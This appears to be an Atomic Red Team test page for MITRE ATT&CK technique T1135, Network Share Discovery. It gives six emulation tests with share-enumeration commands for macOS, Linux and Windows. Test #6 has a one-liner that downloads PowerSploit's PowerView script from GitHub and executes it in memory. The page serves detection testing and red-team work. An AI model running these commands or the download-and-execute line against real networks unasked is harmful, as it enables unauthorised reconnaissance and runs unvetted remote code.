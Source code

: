 # T1135 - Network Share Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1135)
<blockquote>Adversaries may look for folders and drives shared on remote systems as a means of identifying sources of information to gather as a precursor for Collection and to identify potential systems of interest for Lateral Movement. Networks often contain shared network drives and folders that enable users to access file directories on various systems across a network. 

File sharing over a Windows network occurs over the SMB protocol. (Citation: Wikipedia Shared Resource) (Citation: TechNet Shared Folder) [Net](https://attack.mitre.org/software/S0039) can be used to query a remote system for available shared drives using the <code>net view \\\\remotesystem</code> command. It can also be used to query shared drives on the local system using <code>net share</code>.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Network Share Discovery](#atomic-test-1---network-share-discovery)

- [Atomic Test #2 - Network Share Discovery - linux](#atomic-test-2---network-share-discovery---linux)

- [Atomic Test #3 - Network Share Discovery command prompt](#atomic-test-3---network-share-discovery-command-prompt)

- [Atomic Test #4 - Network Share Discovery PowerShell](#atomic-test-4---network-share-discovery-powershell)

- [Atomic Test #5 - View available share drives](#atomic-test-5---view-available-share-drives)

- [Atomic Test #6 - Share Discovery with PowerView](#atomic-test-6---share-discovery-with-powerview)


<br/>

## Atomic Test #1 - Network Share Discovery
Network Share Discovery

**Supported Platforms:** macOS




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| computer_name | Computer name to find a mount on. | string | computer1|


#### Attack Commands: Run with `sh`! 


```sh
df -aH
smbutil view -g //#{computer_name}
showmount #{computer_name}
```






<br/>
<br/>

## Atomic Test #2 - Network Share Discovery - linux
Network Share Discovery using smbstatus

**Supported Platforms:** Linux




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| package_checker | Package checking command. Debian - dpkg -s samba | string | rpm -q samba|
| package_installer | Package installer command. Debian - apt install samba | string | yum install -y samba|


#### Attack Commands: Run with `bash`! 


```bash
smbstatus --shares
```




#### Dependencies:  Run with `bash`!
##### Description: Package with smbstatus (samba) must exist on device
##### Check Prereq Commands:
```bash
if #{package_checker} > /dev/null; then exit 0; else exit 1; fi 
```
##### Get Prereq Commands:
```bash
sudo #{package_installer}
```




<br/>
<br/>

## Atomic Test #3 - Network Share Discovery command prompt
Network Share Discovery utilizing the command prompt. The computer name variable may need to be modified to point to a different host
Upon execution avalaible network shares will be displayed in the powershell session

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| computer_name | Computer name to find a mount on. | string | localhost|


#### Attack Commands: Run with `command_prompt`! 


```cmd
net view \\#{computer_name}
```






<br/>
<br/>

## Atomic Test #4 - Network Share Discovery PowerShell
Network Share Discovery utilizing PowerShell. The computer name variable may need to be modified to point to a different host
Upon execution, avalaible network shares will be displayed in the powershell session

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
get-smbshare
```






<br/>
<br/>

## Atomic Test #5 - View available share drives
View information about all of the resources that are shared on the local computer Upon execution, avalaible share drives will be displayed in the powershell session

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`! 


```cmd
net share
```






<br/>
<br/>

## Atomic Test #6 - Share Discovery with PowerView
Enumerate Domain Shares the current user has access. Upon execution, progress info about each share being scanned will be displayed.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Find-DomainShare -CheckShareAccess -Verbose
```






<br/>

